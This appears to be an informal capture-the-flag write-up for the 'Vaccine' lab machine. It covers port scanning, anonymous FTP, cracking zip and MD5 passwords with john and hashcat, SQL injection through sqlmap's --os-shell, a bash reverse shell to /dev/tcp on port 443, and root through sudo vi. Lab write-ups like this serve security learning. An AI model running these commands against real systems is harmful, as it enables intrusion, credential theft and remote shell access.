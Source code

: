  Vaccine   

used nmap -p- -sV -sC to get all the services running in all the ports and found an http,ssh and ftp   accessed the ftp server using the anonymous username and found a “backup.zip” file in the ftp server   used get {filename} to download the file and when I tried to extract the file name it was password protected, now I am kinda stuck, lets see    had to resort to some wisdom from chatgpt - 
used “john2zip backup.zip > backup.hash” to convert to hash so we can crack using “john —wordlist = ‘path to rockyou’ backup.hash”   disclaimer : if the archive had different passwords for each file this wont work  

got the password : 741852963 
 extracted the backup.zip, got the files - index.php and style.css    I open the index.php and the username  “admin” and password “2cb42f8734ea607eefed3b70af13bbd3” is present which is a hash it seems   we can get what type of hash it uses using “hashid” and returns too many hash algos    we assume its md5 since its 32bit so we use hashcat ”hashcat -a 0 -m 0 password.hash /usr/share/wordlists/rockyou.txt.gz”  here “-a 0” to specify to run in straight mode like directly take password from wordlist hash it using md5 which we specified using “-m 0”   and the password is qwerty789  now will try this password for the http server that we found running , logged in and stuck again - there is a search functionality which we might be able to exploit    tried passing special characters to see if we can see any sql query errors - and we do - ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^  sql injection alert and this seems to be a postgresql server since its using “ilike”    we will use sqlmap for this : sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --cookie="PHPSESSID=sro3faue8i39kiom7ja63qdmi9"  this confirms that search is vulnerable and we have dba rights so when we add additionally —os-shell it gives us shell access 

dont forget you will only get access to os shell if you have database admin rights    now since we have shell access we will run -  bash -c "bash -i >& /dev/tcp/{myip}/443 0>&1" bash -c to specify a bash command and bash -i to start a interactive session with our 443 port and >&1 to pass all input and output to the same connection   sudo nc -lvnp 443 - to open our 443 port 

we are gonna check var/www/html path for any hardcoded php files which might contain the db password 

found the password : P@s5w0rd!  the shell dies frequently so now using ssh we connect like ssh postgres@ipaddress and give the password we found  
in there when I cd I found the user flag - [redacted]

and run sudo -l to list our privileges and we find this : User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf    and vi is a text editor and if we open this file using vi the when we use esc and type :!bash - boom we got root shell access and we find the system flag   - [redacted]
  
   

